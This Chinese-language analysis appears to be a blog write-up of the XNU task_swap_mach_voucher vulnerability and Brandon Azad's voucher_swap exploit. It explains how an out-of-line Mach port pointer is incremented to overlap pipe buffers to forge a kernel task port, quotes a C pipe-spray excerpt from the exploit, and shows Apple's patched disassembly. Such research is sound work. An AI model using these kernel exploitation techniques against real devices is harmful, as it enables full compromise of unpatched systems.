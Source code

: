 ![task_swap_voucher_mig]({{site.url}}{{site.baseurl}}/res/voucher_swap-diagram-1.gif)   
  
Brandon的方法主要是: 
> incrementing an out-of-line Mach port pointer so that it points into pipe buffers.  
  
Brandon的方法主要利用了pipe buffers这个技巧，此技巧最早参见Ian Beer的[multi_path](https://bugs.chromium.org/p/project-zero/issues/detail?id=1558#c3)和[empty_list](https://bugs.chromium.org/p/project-zero/issues/detail?id=1564#c10).  
为了使用这个技巧，作者二次使用这个漏洞，将ool_ports中的某个port地址值自增，以使得其与pipe buffer重叠，再通过receive ool ports得到新的mach port。随后即可使用这个新的mach_port在用户态构造tfp0。  
  
我在第一次阅读这篇文章后，产生了两个问题：  
1. 为何额外要设置dangling pointer？用户态创建voucher的时候不是已经获得一个mach port了吗，就用这个mach port作为dangling pointer不行吗？比如在本文上一章中介绍Ian Beer的exploit时候，也是如此，直接用first port即可。  
2. 通过receive port即可获得新的mach_port吗？毕竟真实的ipc_port对象没有被修改，修改的只是ool_ports这个array中的地址值而已。  
    
通过阅读XNU源码，可以知道，与Ian Beer哪个async wakeup不一样的是，这次voucher对象的release，是官方的release方法，会将voucher上的ipc_object也释放掉，包括ipc_space中的entry，即mach port被释放掉了，不存在dangling pointer了，所以才需要额外设置一个dangling pointer。而关于第二个问题，可以参考`ipc_kmsg_copyout_ool_ports_descriptor`，最终调用`ipc_object_copyout`将修改后的地址作为一个新的对象插入task的ipc_space。这里也正是因为调用了ipc_object_copyout，需要提前将对应的pipe buffer初始化好，否则会panic：  
```C
	// 4. Spray our pipe buffers. We're hoping that these land contiguously right after the
	// ports.
	assert(pipe_buffer_size == 16384);
	pipe_buffer = calloc(1, pipe_buffer_size);
	assert(pipe_buffer != NULL);
	assert(pipe_count <= IO_BITS_KOTYPE + 1);
	size_t pipes_sprayed = pipe_spray(pipefds_array,
			pipe_count, pipe_buffer, pipe_buffer_size,
			^(uint32_t pipe_index, void *data, size_t size) {
		// For each pipe buffer we're going to spray, initialize the possible ipc_ports
		// so that the IKOT_TYPE tells us which pipe index overlaps. We have 1024 pipes and
		// 12 bits of IKOT_TYPE data, so the pipe index should fit just fine.
		iterate_ipc_ports(size, ^(size_t port_offset, bool *stop) {
			uint8_t *port = (uint8_t *) data + port_offset;
			FIELD(port, ipc_port, ip_bits,       uint32_t) = io_makebits(1, IOT_PORT, pipe_index);
			FIELD(port, ipc_port, ip_references, uint32_t) = 1;
			FIELD(port, ipc_port, ip_mscount,    uint32_t) = 1;
			FIELD(port, ipc_port, ip_srights,    uint32_t) = 1;
		});
	});
```

#### Issues
Brandon的exploit主要问题在于，在第4步中，他用ool_ports来重用ipc_voucher，造成iv_refs与ipc_port的低32位重合，而iv_refs是有要求的： 
> iv_refs must be in the range 1-0x0fffffff  
   
在iOS中，由于弱kASLR，这个条件还好；但是在macOS中，这个条件很难满足。

### Spark's Exploit (tfp0)
略。  

### Apple Fixed This Vulnerability
在我的10.14.3 macOS上，苹果的新版_task_swap_mach_voucher代码如下：  
```C
__text:FFFFFF80003DEBB0                 public _task_swap_mach_voucher
__text:FFFFFF80003DEBB0 _task_swap_mach_voucher proc near
__text:FFFFFF80003DEBB0                 push    rbp
__text:FFFFFF80003DEBB1                 mov     rbp, rsp
__text:FFFFFF80003DEBB4                 mov     rdi, [rdx]
__text:FFFFFF80003DEBB7                 call    _ipc_voucher_release
__text:FFFFFF80003DEBBC                 mov     eax, 2Eh ; '.'
__text:FFFFFF80003DEBC1                 pop     rbp
__text:FFFFFF80003DEBC2                 retn
__text:FFFFFF80003DEBC2 _task_swap_mach_voucher endp
```
